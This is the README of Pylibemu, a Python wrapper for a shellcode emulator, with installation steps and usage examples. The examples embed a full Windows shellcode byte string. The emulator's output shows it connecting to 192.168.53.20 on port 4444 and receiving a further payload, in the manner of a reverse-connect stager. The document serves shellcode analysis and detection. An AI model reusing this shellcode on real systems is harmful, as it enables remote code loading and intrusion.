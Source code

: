 
## Pylibemu

Pylibemu is a wrapper for the Libemu library (https://github.com/buffer/libemu).


## Requirements

- Python 2.5 or later
- Libemu


## Installation

To install Pylibemu, just execute:

	$ sudo pip install pylibemu

or alternatively

	$ sudo python setup.py install

## Usage


	buffer@alnitak ~ $ python
	Python 2.6.6 (r266:84292, Feb 26 2011, 12:20:05) 
	[GCC 4.4.4] on linux2
	Type "help", "copyright", "credits" or "license" for more information.
	>>> import pylibemu
	>>> shellcode  = b"\xfc\x6a\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d"
	>>> shellcode += b"\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34"
	>>> shellcode += b"\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0"
	>>> shellcode += b"\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9"
	>>> shellcode += b"\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c"
	>>> shellcode += b"\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c"
	>>> shellcode += b"\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32"
	>>> shellcode += b"\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53"
	>>> shellcode += b"\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02"
	>>> shellcode += b"\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6"
	>>> shellcode += b"\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3"
	>>> shellcode += b"\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50"
	>>> shellcode += b"\x53\x57\x53\x66\xb9\xc0\x38\xff\xe6"
	>>> emulator = pylibemu.Emulator()
	>>> offset = emulator.shellcode_getpc_test(shellcode)
	>>> offset
	4
	>>> emulator.prepare(shellcode, offset)
	>>> emulator.test()
	0
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
     	LPCTSTR lpFileName = 0x0012fe90 => 
           	= "ws2_32";
	) = 0x71a10000;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
         	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     	int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * buf = 0x0012fe88 => 
        	 none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The new Emulator method 'run' was introduced in Pylibemu 0.1.3  which allows not to 
worry about details. Moreover the new Emulator attribute `offset' allows to get such
information if needed. 
 

	>>> emulator = pylibemu.Emulator()
	>>> emulator.run(shellcode)
	0
	>>> emulator.offset
	4
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
    	 LPCTSTR = 0x01a3f990 => 
           	= "ws2_32";
	) =  1906376704;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
        	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * = 0x01a40870 => 
         	none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The Emulator accepts the optional parameter 'output_size' which defines how much memory 
will be reserved for storing the emulation profile dump. By default, its size is 1MB but 
it be can changed in two possible ways

	>>> emulator = pylibemu.Emulator(1024)

	>>> emulator = pylibemu.Emulator()
	>>> emulator.set_output_size(1024)

If the reserved memory is not enough to contain the entire dump, the dump will be truncated 
and the Emulator attribute 'emu_profile_truncated' will be set to True. This approach is 
needed in order not to penalize performances while analyzing some shellcodes which may produce 
several MBs dumps (such as the Metasploit windows/download_exec). If the entire dump is needed 
a really simple approach could be to check the `emu_profile_truncated' attribute after the 
shellcode emulation test, increase the reserved memory through the Emulator 'set_output_size' 
method and subsequently run the shellcode emulation test again as shown above.


## License information

Copyright (C) 2011-2016 Angelo Dell'Aera <buffer@antifork.org>

License: GNU General Public License, version 2 or later; see LICENSE.txt
         included in this archive for details.


